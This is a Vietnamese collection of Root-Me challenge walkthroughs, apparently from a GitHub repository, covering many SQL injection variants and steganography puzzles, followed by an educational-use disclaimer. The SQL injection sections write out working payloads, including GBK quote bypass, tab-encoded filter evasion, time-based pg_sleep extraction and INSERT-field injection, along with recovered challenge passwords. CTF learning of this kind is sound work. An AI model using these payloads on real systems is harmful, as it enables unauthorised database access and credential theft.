Theo GBK, nó sẽ thực hiện mã encoding các ký tự hex về tiếng Trung. Bên cạnh đó, nó sẽ encode 2 bytes hex về 1 ký tự tiếng Trung và tuân theo quy luật (GBK (character encoding) - Wikipedia):
Do đó, ta có thể lợi dụng điều này để khiến server tự động thêm “\” vào input (1 byte) vào input và từ đó khiến nó trở thành 1 ký tự tiếng Trung:
- Ký tự
\có mã hex là%5C(phù hợp với luận ở byte thứ 2) - Vì luật quy định byte đầu tiên trong khoảng 81 – FE, do đó ta chọn byte đầu là
%81 - Ta có ký tự hoàn chỉnh sau khi nhập
%81vào sẽ được convert sang%81%5c~乗
Giờ đến việc inject username, ta thử với payload: login=admin%81'+or+1=1--+-&password=1
Dự đoán, server sẽ convert nó thành: login=admin%81%5C'+or+1=1--+-&password=1
Hay: login=admin乗'+or+1=1--+-&password=1
Sau khi send request, Burp hiển thị Redirection, click vào thì hiển thị flag:
- Flag: "****************************"
SQL Injection - Blind
Thử fuzz với payload admin’-- - ta đã access thành công qua Authentication v 0.02. Tuy vậy, website chẳng trả về cho thông tin password gì cả:
Mở burpsuite và tìm kiếm thôi. Thử thay đổi payload bằng cách sử dụng union select thì phát hiện ra website đã filter các keyword chông SQL Injection với thông báo “Injection detected”:
Với blind injection, ta thực hiện mò thử với các cấu trúc mà server database hay tạo, fuzz thôi:
Với payload:
username=admin%27+AND+(select+username+from+sqlite_master)='admin'--+-&password=admin%27--+-
Server trả về là TRUE fuzz tìm password bằng substr() thôi!
- Tìm length(password):
- Length(password) == 8
- Tìm password:
Payload để fuzz:
username=admin%27+AND+substr((select+password+from+sqlite_master),1,1)='a'--+-&password=admin%27--+-
Sau một khoảng thời gian, ta đã ghép được password: e2a*********3i
- Flag: "****************************"
SQL injection - Error
Website cung cấp cho ta 2 tab (Authentication và Contents), tuy vậy, khi fuzz SQLi vào Authentication thì không có kết quả khả thi. Chuyển qua tab Contents, ta phát hiện ra website sẽ res về lỗi cho ta:
Thử fuzz các payload dựa vào “ORDER BY”:
Có thể thấy, với position==3 hoặc VARCHAR/CHAR type thì database res về lỗi. Như vậy, ta cần phải hiết 3 position của database này cũng như dựa vào type varibles để attack. Dựa vào cheatsheet của MySQL, ta có thể sử dụng CAST … AS [type] để khiến database res về error khi postion không thể là VARCHAR/CHAR. Mở burpsuite và thử payload:
Lỗi res về cho ta biết, website sẽ chỉ hiển thị 1 row. Đến đây, ta có thể sử dụng LIMIT để filter res về 1 row:
- Table name:
m3mbr35t4bl3
- Column name (first column):
id
Đến đây, ta cần sử dụng OFFSET để có thể filter vào đúng postion ta cần LIMIT để hiển thị các column còn lại:
- Username column:
us3rn4m3_c0l - Password column:
p455w0rd_c0l
- Username của admin:
admin - Password của admin:
1a2BdKT5DIx3qxQN3UaC
- Flag: "****************************"
SQL injection – File reading
Ở tab Members, ta tìm được thông tin cơ bản của admin. Từ đây, thử fuzz với URL bằng burpsuite để tìm kiếm điều khác biệt:
Bắt đầu tìm kiếm số cột:
- Có 4 cột
Sau một hồi fuzz, ta đã tìm được các bảng của dtb:
Payload: id=1+and+0=1+union+select+group_concat(table_name),1,1,1+from+information_schema.tables--+-
Ta thấy, có table ‘member’, tiến hành tìm column của nó. Tuy nhiên, dtb đã filter mất tiêu:
Thử convert ‘member’ hex value: 0x6D656D626572
member_id,member_login,member_password,member_email
Tìm password thôi. Tuy nhiên, đến lúc này database k constaint table_name nữa, ta có payload: id=1+and+0=1+union+select+member_login,member_password,1,1+from+member
Đến đây, ta nhận được một chuỗi base64 nhưng decode ra không phải password. Sau khi mò mẫm vô ích, nhìn lại tên bài là file reading, ta có thể đoán rằng, tất cả sẽ nằm trong source code tại index.php. Ta sẽ sử dụng sqlmap để tìm ra source web:
Source code cho ta thấy, password đã bị hash bằng SHA1, sau đó bị stringxor với base64 của chính nó.
Giờ thì hiểu nó rồi, ta sử dụng python để stringxor ngược lại thành SHA1:
- SHA1 password:
77be4fc97f77f5f48308942bb6e32aacabed9cef
- Password:
supe*********word
- Flag: "****************************"
SQL Injection – Filter bypass
Challenge này có cấu trúc tương tự các bài SQL đã làm, tab Membres có câu query id=1 và chỉ có ở đây có thể tiêm payload vào. Tuy vậy, đời không như là mơ, ta bị reject:
Mở burpsuite lên và thử fuzz tìm filter của nó thôi!
Với comment của tác giả, ta đã xác định được database gồm 4 cột:
Sau 20 phút ngồi fuzz không thành, thôi thì bỏ vào intruder để brute thử:
Có vẻ là server đã chặn hết các từ khóa luôn. Stuck tiếp 1 tiếng. Thử test lại với uppercase các keyword thì thấy qua được filter:
- Uppercase các keyword
Đời không như là mơ, đến lúc này, server filter hết các ký tự “+”, “%20” và “whitespace”:
Stackoverflow bảo hãy thử các ký tự // %00 %09 %0a %0d** để bypass. Thì thấy %00 bypass được:
Tuy nhiên, tiếp tục fuzz với %00 thì vẫn không có kết quả gì trả về:
Quay ngược lại thử %09 (vì lúc thử đến %00 bypass được nên không thử nữa) thì thấy cũng bypass được. Tra trên URL Encoding thì biết đây là ký tự Tab:
Ngồi fuzz và ta đã có payload có thể tiêm:
1%09UNION%09SELECT%09*%09FROM%09membres%09LIMIT%091%09OFFSET%090
Ở trên, ta đã biết được 4 cột của database. Giờ thì thử thách tiếp theo là bypass dấu ‘,’. Tuy nhiên, có vẻ như không có cách nào thay thế được dấu ‘,’ cả.
Sau khi lượn trên các mặt trận, em tìm được cấu trúc query sử dụng cross join để JOIN multi query trong subqueries để có thể truy xuất nhiều cột không cần sử dụng ‘comma’:
union select * from ((select 1)A join (select 2)B join (select group_concat(user(),' ',database(),' ',@@datadir))C);
Thử áp dụng payload trên và các lưu ý từ đầu, ta có payload:
1 UNION SELECT * FROM (SELECT 123) AS a JOIN (SELECT 456) AS b JOIN (SELECT 123) AS c JOIN (SELECT pass FROM membres LIMIT 1) AS d) LIMIT 1 OFFSET 0
Payload để tiêm:
1%09UNION%09SELECT%09*%09FROM%09((SELECT%09123)%09AS%09a%09JOIN%09(SELECT%09456)%09AS%09b%09JOIN%09(SELECT%09123)%09AS%09c%09JOIN%09(SELECT%09pass%09FROM%09membres%09LIMIT%091)%09AS%09d)%09LIMIT%091%09OFFSET%090
Không hiểu sao nó chỉ trả về giá trị như lúc đầu tiêm. Ngồi stuck một hồi nữa và thử đổi payload thì mới phát hiện ra quên thay đổi OFFSET từ 0 1 vì mình đã query id=1. Thay đổi payload:
1%09UNION%09SELECT%09*%09FROM%09((SELECT%09123)%09AS%09a%09JOIN%09(SELECT%09456)%09AS%09b%09JOIN%09(SELECT%09123)%09AS%09c%09JOIN%09(SELECT%09pass%09FROM%09membres%09LIMIT%091)%09AS%09d)%09LIMIT%091%09OFFSET%091
- Tìm được password: KLfgy**************sqli
- Flag: "****************************"
SQL injection - Insert
Website cho ta 2 tab gồm authentication và register. Ở Register, ta có thể tùy ý tạo được account và không hề có filter input.
Từ đó, ta xác định chỗ để tiêm vào database. Ở tab register, ta có thể thấy website yêu câu 3 field gồm username, password và email. Do đó, database sẽ thực hiện tạo user theo kiểu:
INSERT INTO users VALUES (username, password, email)
Trong khi đó, website không hề filter email field và ta có thể lợi dụng bug này để có thể INSERT thêm các giá trị ta muốn với multiple insertions và tấn công vào email field.
Payload: INSERT INTO users VALUES (username, password, email), (sth, sth, attack_payload)-- -
Login vào account, ss, ss, (select version()):
- Database version():
10.3.34-MariaDB-0ubuntu0.20.04.1
Tiếp tục, ta cần fuzz để tìm ra được table và column, nhưng khi thử thì bị message “Request failed” cho đến khi sử dụng LIMIT thì mới biết là nó bị giới hạn:
Thử sử dụng trick với OFFSET thì được response “Attack detected”.
Login vào account vừa INSERT, ta biết được 1 table:
Sử dụng GROUP_CONCAT để show các table nhưng có vẻ không có tables nào có thông tin user hoặc flag mà toàn là các table khác.:
Thử xem lại version, ta thấy server sử dụng MariaDB. Sau một hồi stuck và check cheatsheet, ta có thể sử dụng information_schema.processlist để check các thread đang thực thi của server database (vì user có thể reg bất cứ lúc nào). Lúc này, ta có thể kiểm tra table INFO để có thể xem server sẽ thực thi cái gì khi reg account (Information Schema PROCESSLIST Table - MariaDB Knowledge Base):
Reg acc để show table INFO của information_schema.processlist:
Payload thực thi của server:
INSERT INTO membres ( username, password, email)
- Table cần tìm: membres
Show các column của membres table:
Tuy vậy, ta chẳng kiếm được bất kỳ thông tin nào từ bảng membres này cả
Sau 2 tiếng stuck, vì quá bất lực, em quyết định sử dụng burpsuite để bruteforce tất cả các table của information_schema.tables:
- Auto register account:
- Auto login:
- Sau khi xem qua các table mà bruteforce giúp ta leak, ta đã tìm được đúng table cần tìm :
Đến đây, ta thực hiện tìm column trong flag table:
- Payload:
username=uuysyy&password=123&email=gg'),('cgc','123',(select column_name from information_schema.columns where table_name='flag' limit 0,1))-- -
Giờ thì tìm flag: username=sadadas&password=123&email=gg'),('cvb','123',(select flag from flag limit 0,1))-- -
- Flag: ******************************
- Flag: ******************************
SQL-Injection-Routed
Thử login và intercept request, ta có được kết quả:
Có vẻ như khó có thể bypass được ở hàm login này khi request trả về:
Chuyển qua tab Search, khi query ta đều nhận được kết quả trả về dựa trên query:
Ta sẽ attack vào đây với payload ‘ union select 1 from information_schema-- - thì nhận được response “Attack detected!”:
Thử fuzz ta biết được, input sẽ filter các ký tự như ‘,’, các ký tự có thể liên quan đến SQLi. Tuy nhiên không filter một vài từ như union, select,…
Tìm hiểu về Routed SQL (https://repository.root-me.org/Exploitation - Web/EN - Routed SQL Injection - Zenodermus Javanicus.txt) ta có thể tìm được thông tin:
In simple words routed SQL injection can be a scenario when you are not able to see any output after using "union select", earlier when i was playing with SQLi i found a website where i wasnt getting any output so it just striked through my mind that may be the output is not coming to the page then it must be going somewhere, and that somewhere is an another sql query.
Nghĩ là, khi ta inject với union select thì sẽ không thể thấy được input của câu inject đó.
Payload: 'union select login,password from users-- -
Convert sang hexa: 0x27756e696f6e2073656c656374206c6f67696e2c70617373776f72642066726f6d2075736572732d2d202d
- Flag: *********************
SQL Injection – Time-based
Về SQLi Time-based, đây là một loại SQLi Blind khi ta sử dụng thời gian res của req để dự đoán thông tin và BurpSuite sẽ hỗ trợ rất tốt về mảng này. Khi ta sử dụng một câu Query đúng, thời gian phản hồi sẽ chậm và ngược lại.
Trong website, ta có một tab là Memberlist, có query như sau:
http://challenge01.root-me.org/web-serveur/ch40/?action=memberlist&member=[x]
Ở đây, ta có thể lợi dụng để thực hiện tiêm payload vào đằng sau nó và thực hiện blind. Thử blind với payload bằng nhiều version() database khác nhau:
Payload: 3;select+case+when+(0=0)+then+pg_sleep(10)+else+pg_sleep(-1)+end--
Payload này sẽ khiến dtb res chậm hơn với pg_sleep() khi query đúng.
- Server thuộc dạng Postgresql: pg_sleep() - pgPedia - a PostgreSQL Encyclopedia
Từ đó, ta sẽ sử dụng Burp Intruder để thực hiện bruteforce table_name, column_name như các bài SQLi đã làm.
- Tìm table_name
Trước tiên, ta cần tìm kiếm độ dài của table:
Payload: 3;select+case+when+((select+length(table_name)+from+information_schema.tables+limit+1)=[length])+then+pg_sleep(10)+else+pg_sleep(-1)+end—
Đưa vào Intruder và bruteforce:
Ở bảng kết quả, ta filter lại cột “Response Complete”. Res nào có độ lớn cao nhất thì chắc hẳn đó là payload đúng.
- length(table_name) == 5
Đã có table_name, ta tiến hành bruteforce table_name. Bỏ vào intruder:
member=3;select+case+when+(substr((select+table_name+from+information_schema.tables+limit+1),§1§,1)=chr(§§))+then+pg_sleep(10)+else+pg_sleep(-1)+end--
Ghép lại ta được table_name=users
- Tìm column_name
Tương tự như table_name, ta tìm length(column_name) của cột đầu tiên:
Kết quả trả về payload length(column_name) = 2. Ta có thể dự đoán nó có thể là ‘id’. Kiểm chứng bằng Repeater:
- Ký tự ‘i’:
- Ký tự ‘d’:
- Cả 2 response đều tốn 2,285 miliseconds (tương tự thời gian fuzz, khác với response thông thường ~ 200 – 300 milisecond) column[0] == id
Để tìm được column tiếp theo, ta sử dụng offset để filter lại và thực hiện tương tự, bruteforce thôi:
- length(column[2]) == 8
- column_name[1] = username
Column[2], có length == 9:
Bruteforce được kết quả column_name[2] == firstname:
Tương tự, column[3] có length == 8, và dễ dàng đoán được:
- column_name[3] == lastname:
Column[4] có length == 5. Suy đoán và thử được kết quả:
- column_name[4] == email
column[5] có độ dài ký tự là length == 8:
Vì length ==8, ta thử kiểm chứng keyword = ‘password’ thì thấy trùng khớp:
Như vậy, ta đã tìm được đúng cột password, giờ thì tìm password của admin. Admin có id=1, ta chỉ cần tìm kiếm với offset = 0 là sẽ ra.
- length(password) == 13
Sau hơn 1 ngày bruteforce với payload, ta được kết quả:
member=3;select+case+when+(substr((select+password+from+users+limit+1+offset+0),§§,1)=chr(§§))+then+pg_sleep(10)+else+pg_sleep(-1)+end--
Ta có được chuỗi ascii password: 84 33 109 51 66 64 115 51 68 83 81 76 33
Convert to text: T!m3B@s3DSQL!
Flag: T!m3B@s3DSQL!
- Flag:
SQL injection - Numeric
Thử bypass qua login thì không thể thực hiện được.
Kiểm tra các thẻ khác trong Home vì nhận thấy điều đặc biệt rằng, 3 link này đều dẫn đến action=news&news_id=[x]. Thử xóa id của news thì phát hiện database bị lỗi:
Database của server là SQLite3. Tương tự bài SQL Injection – String, ta thực hiện inject nó để tìm ra admin. Ta dò được số cột là 3:
Ta dò được có 2 bảng users và news:
Tương tự bài String, ta show ra được username và password của users:
Login vào thành công:
- Flag: "****************************"
SQL injection - String
Thử SQLi ở thẻ Login thì không bypass được, ta qua thẻ Search để thử. Ở thẻ này có vẻ khả thi hơn vì nó có thực hiện query theo input của ta. Ví dụ:
Đầu tiên, thử với payload đơn giản 1’ or 1=1-- , thì phát hiện nó đã bị SQLi thành công:
Ta thực hiện blind SQL để tìm kiếm thông tin infor của admin để có thể login. Ta thử với payload 1’ union select 1 , thì nhận về lỗi sau:
Có thể biết được server sử dụng SQLite3, từ đó, công việc của ta cần sử dụng cú pháp của SQLite3 để mò ra các table trong database với hi vọng tìm được admin. Nhưng trước tiên, ta cần phải thực hiện dò số cột. Thay payload thành 1’ union select 1,1-- thì có vẻ đã tìm được số cột là 2:
Vì server dùng SQLite3, do vậy, ta cần truy vẫn các table bằng cách tìm trong sqlite_master hoặc sqlite_schema. Thử truy vấn với payload 1’ union select 1,name from sqlite_master-- ta có:
Tiếp tục, ta blind vào table users 1' union select 1,1 from users--
Tiếp tục, ta thử query tìm username và password với payload 1' union select username,password from users-- :
Thử login thì thành công:
- Flag: "****************************"
SQL Truncation**
SQL Truncation là lỗ hổng xảy ra khi user input vượt qua các điều kiện của database khiến database xung đột và gây ra hiện tượng thiếu xác thực.
Ở challenge này, ta phải mạo danh admin và login vào tab của admin. Đầu tiên, ta kiếm tra sources code và thấy được comment về các query khi register:
Ở username và password, ta có thể thấy, database giới hạng length = 12 (login) và length = 32 (password). Như vậy, ta thử attack vào username với payload:
-
Username: admin hehehehe (7 whitespace)
-
Password: somethinghere
Khi này, ta nhận được thông báo “User saved”. Theo SQL Truncations, lúc này, thông tin login của ta sẽ bị truncate thành:
-
Username: admin
-
Password (new): somethinghere
Ta chuyển qua tab Administrator, login vào bằng password vừa tạo:
Ta nhận được flag sau khi login!
- Flag: *********************
Steganography
Root-me link for this subject: https://www.root-me.org/en/Challenges/Steganography/
EXIF - Metadata
Link challenges: https://www.root-me.org/en/Challenges/Steganography/EXIF-Metadata
Sử dụng tool để xem exifdata: https://www.metadata2go.com/
Ta tìm được GPS location: 43 deg 17' 56.27" N, 5 deg 22' 49.38" E
Sử dụng Google Maps để định vị location ta tìm được địa chỉ tại: 2 Pl. des Capucines, 13001 Marseille, France:
Flag là thành phố nơi chụp bức ảnh.
Flag: *******
Dot and next line
Hình ảnh được cho:
Chú ý vào title của challenge, ta có ‘dot’ và ‘next line’ là hai keyword. Chú ý vào hình ảnh được cho, ta có thể thấy được sự sắp xếp ngẫu nhiên và không có quy tắc của các dấu chấm và cả xuống dòng.
Từ tên của challenge, ta đặt ra 2 giả thuyết:
- Ghép các ký tự bên dưới dấu chấm lại với nhau (dot and next line)
- Và ngược lại (line and next dot)
Từ đó, ta có 2 kết quả:
- urpa de (không có nghĩa và dư thừa khoảng trắng)
- chatelet15h
Submit và thành công
Flag: *******
Steganomobile
Link: https://www.root-me.org/en/Challenges/Steganography/Steganomobile
Sử dụng công cụ https://dcode.fr để decode nó dưới dạng Multi-Tap Phone ta được kết quả là CELLPHONE.
Thử nhập kết quả nhưng sai. Chuyển sang lowercase thì submit thành công!
Flag: *******
Twitter Secret Messages
Link: https://www.root-me.org/en/Challenges/Steganography/Twitter-Secret-Messages
Sử dụng công cụ Twtitter Secret Message: https://holloway.nz/steg/
Ta nhận được message: rendezvous at grand central terminal on friday.
Flag: *******
Poem from Space
Link: https://www.root-me.org/en/Challenges/Steganography/Poem-from-Space
Bôi đen file, ta thấy được file có lồng thêm những khoảng trắng (whitespace):
Đây có thể là Whitespace Language. Ta remove các ký tự latin đằng trước đi và để lại các khoảng trắng dư thừa.
Sử dụng công cụ Whitespace Language decode để decode:
Flag: RootMe{*******}
Yellow dots
Link: https://www.root-me.org/en/Challenges/Steganography/Yellow-dots
Tên bài là Yellow dots, ta có thể liên tưởng đến printer. Sử dụng stegsolve để tìm ra điểm khác biệt trong file ảnh:
Hình ảnh khác biệt hiện ra, ta có thể dò nó theo printer serial:
Ta có bảng dò như sau:
Flag: *******
WAV - Noise analysis
Link:https://www.root-me.org/en/Challenges/Steganography/WAV-Noise-analysis
Đề bài là một file ch3.wav. Mở lên nghe thì rất khó chịu. Phân tích metadata thì không thu thập được bất cứ gì.
Sử dụng công cụ Audicity để modify âm thanh. Sau nhiều lần thử thì công thức cho ra được một đoạn voice tiếng anh là: Speed Low (giảm còn 30%) + Reverse (đảo ngược đoạn âm thanh):
Nghe lại ta có được flag: 3b27641fc5h0
Flag: *******
EXIF - Thumbnail
Link: https://www.root-me.org/en/Challenges/Steganography/EXIF-Thumbnail
Strings thử file thì thấy mấy không tìm được gì đặc biệt, kể cả exiftool:
Sử dụng công cụ bóc tách thumbnail, https://29a.ch/photo-forensics/#thumbnail-analysis, ta được flag:
Flag: *******
WAV-Spectral-analysis
Link: https://www.root-me.org/en/Challenges/Steganography/WAV-Spectral-analysis
Sử dụng Audicity tool và chọn chế độ Spectogram để xem. Ta có thể xem được sóng và nó hình thành đoạn text:
Flag: *******
APNG – Just a PNG
Link: https://www.root-me.org/en/Challenges/Steganography/APNG-Just-A-PNG
Exiftool kiểm tra file:
Sử dụng công cụ APNG Disassembler 2.9 để extract .apng ra nhiều frame:
Kiểm tra thư mục xuất ra thì có các file text là frame data. Mở các file đầu lên thì thấy các thông số frame có vẻ như đã bị ASCII hóa. Thử dịch ngược lại 4 file đầu thì ra chữ FLAG (70 76 65 71):
Sử dụng python để decode và ta được flag:
Flag: *******
TXT - George and Alfred
Link: https://www.root-me.org/en/Challenges/Steganography/TXT-George-and-Alfred
Mở challenge, ta tìm được đoạn text là bài thơ:
Ở cuối bài, người ta có để một cái hint:
Mở bài gốc, ta biết được, những từ đầu hàng ở đoạn cuối là lời mà Musset gửi đến Georges. Bản của challenge đã thay dòng “La réponse de Georges Sand :” à “De la même manière George Sand a répondu ceci :”. Dựa vào hint, ở trên, ta có thể đoán được “phrase cachée” là Cette Nuit. Thử flag thì thấy passed!
Flag: *******
Embedded PDF
Sử dụng pdf-parser để xem cấu trúc của file pdf:
pdf-parser -w epreuve_BAC_2004.pdf
Ta thấy, file Hidden_b33rs.txt được embedded trong pdf. Do vậy, sử dụng peepdf để xem cấu trúc của stream thì thấy Filespec nằm ở object 78, từ đó, ta sẽ extract object 78 ra file:
Extract obect 78 ra hiddenpdf.txt:
File hiddenpdf.txt:
Data đã bị encode base64, decode nó và xem header thì phát hiện đây là file JFIF:
Xuất ra file hidden.jpg, ta có flag:
Flag: *******
Kitty spy
Link: https://www.root-me.org/en/Challenges/Steganography/Kitty-spy
Binwalk file ch16.jpg ta thấy được các file zip lồng trong file img:
Extract các file zip ra:
Trong step 1, ta có:
Sử dụng stegsolve để xem ảnh dưới nhiều dạng:
Ta được flag ở step1: ******* (hihi encrypted flag)
Đến step2, ta unzip với pass là flag ở step1:
Đọc file README\#2.txt, ta nhận được một đoạn chữ số khả nghi là MD5: 18574115dbcd47d71e7eb9da74e45bf2
Sử dụng tool thử tìm đoạn plaintext của nó:
Ta có key: ******* (hihi encrypted key). Sử dụng steghide để extract file từ monster.wav:
Ta tìm được password ở step 2: s3c0nDSt3pIsAls0D0n3
Đến step3, ta có một source web nghi ngờ. Mở file README trong source code, ta nhận được dòng có nội dung như kiểu QR Code sẽ là key ở web này liên quan đến flag:
Mở file LICENSE.md, ta nhận được một đoạn BrainFuck:
Decode và y như dự đoán rằng, có thể QR Code sẽ hỗ trợ ta ở step này:
Ở file index.html, ta có được message sau:
Tui bị dừng lại ở đây là chưa nghĩ ra hướng tiếp theo.
Crypto Art
Đây là file Netpbm với đuôi là .ppm.
String file và ta được thông điệp:
Sử dụng dcode.fr để tiên đoán cipher và ta thấy nó hợp nhất Vigenere:
Sau một hồi không thể auto bruteforce được Vigenere thì bài này có lẽ cần phải có key mới có thể decode. Tìm hiểu về ppm thì em phát hiện nó có thể chèn thêm text vào trong đó (hide). Sử dụng npiet language để phiên dịch nó thử:
Cuối cùng ta có key: EYJF**** (hihi encrypted key)
Decode và nhận kết quả:
Flag: *******
PNG - Pixel Indicator Technique
Pixel Indicator Technique là kỹ thuật ẩn giấu thông tin vào pixel của ảnh. Sử dụng công cụ stegopit (chuyên cho PIT) để phân tích ảnh của challenge:
Và ta tìm được hidden data:
Flag: *******
PNG - Pixel Value Differencing
Đây là challenge dựa trên kỹ thuật PVD (Pixel Value Differencing) để ẩn dấu message trong png. Tương tự challenge, ta sử dụng công cụ stegopvd (Tinyscript steganography tool implementing the Pixel Value Differencing algorithm · GitHub) để extract message:
Flag: *******
(**Tinyscript steganography tool implementing the Pixel Value Differencing algorithm · GitHub) để extract message:
Flag: *******
Disclaimer
This project is intended for educational purposes only.
By using any materials, scripts, or walkthroughs provided in this repository, you agree to the following:
- You will not use any information or tools provided here for malicious or unauthorized purposes.
- All challenges and labs referenced are publicly accessible platforms or practice environments (e.g., Root-Me).
- The content is shared for the purpose of learning cybersecurity, penetration testing, and ethical hacking techniques.
- The author(s) are not responsible for any misuse, damage, or legal consequences resulting from the use of this content.
If you're unsure about whether your actions are ethical or legal, you probably shouldn't do them.
Stay ethical. Hack responsibly. Learn continuously.
Contributors
Thank you to everyone who has contributed to this project! Your efforts help make this resource better for the community.
How to Contribute
- Fork the repository and create your branch from
main. - Add your content or improvements.
- Open a pull request with a clear description of your changes.
Contributors List
- nh4ttruong (maintainer)
If you contributed and are not listed, please open a PR or issue to be added!